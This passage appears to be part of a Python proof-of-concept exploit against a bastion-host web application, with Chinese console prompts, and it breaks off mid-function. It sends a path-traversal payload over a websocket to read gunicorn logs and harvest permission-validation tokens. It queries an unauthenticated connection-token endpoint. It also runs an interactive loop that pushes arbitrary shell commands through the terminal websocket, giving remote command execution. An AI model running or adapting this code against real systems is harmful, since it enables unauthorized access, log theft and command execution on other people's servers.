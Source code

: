 ```python
    def opened(self):
        req = '{"task":"peiqi/../../../../../logs/gunicorn"}'
        self.send(req)

    def closed(self, code, reason=None):
        print("Closed down:", code, reason)

    def received_message(self, resp):
        resp = json.loads(str(resp))
        # print(resp)
        data = resp['message']
        print(data)
        if "/api/v1/perms/asset-permissions/user/validate/?" in data:
            print(data)


async def send_msg(websocket, _text):
    if _text == "exit":
        print(f'you have enter "exit", goodbye')
        await websocket.close(reason="user exit")
        return False
    await websocket.send(_text)
    recv_text = await websocket.recv()
    print(re.findall(r'"data":"(.*?)"', recv_text))


async def main_logic(target_url):
    print("\033[32m[o] 正在连接目标: {}\033[0m".format(target_url))
    async with websockets.connect(target_url) as websocket:
        recv_text = await websocket.recv()
        resws = json.loads(recv_text)
        id = resws['id']
        print("\033[36m[o] 成功获取 ID: {}\033[0m".format(id))

        inittext = json.dumps({"id": id, "type": "TERMINAL_INIT", "data": "{\"cols\":164,\"rows\":17}"})
        await send_msg(websocket, inittext)
        for i in range(7):
            recv_text = await websocket.recv()
            print(re.findall(r'"data":"(.*?)"', recv_text))

        while True:
            cmd = str(input("\033[35mcmd  >>> \033[0m"))
            cmdtext = json.dumps({"id": id, "type": "TERMINAL_DATA", "data": cmd + "\r\n"})
            await send_msg(websocket, cmdtext)
            for i in range(1):
                recv_text = await websocket.recv()
                print(re.findall(r'"data":"(.*?)"', recv_text))


def POC_1(target_url):
    vuln_url = target_url + "/api/v1/users/connection-token/?user-only=1"
    response = requests.get(url=vuln_url, timeout=5)
    print(response.status_code)
    ws_open = str(input("\033[32m[o] 是否想要提取日志（Y/N） >>> \033[0m"))
    try:
        if ws_open == "Y" or ws_open == "y":
                ws = target_url.strip("http://")
                try:
                    ws = ws_long('ws://{}/ws/ops/tasks/log/'.format(ws))
                    ws.connect()
                    ws.run_forever()
                    ws.close()
```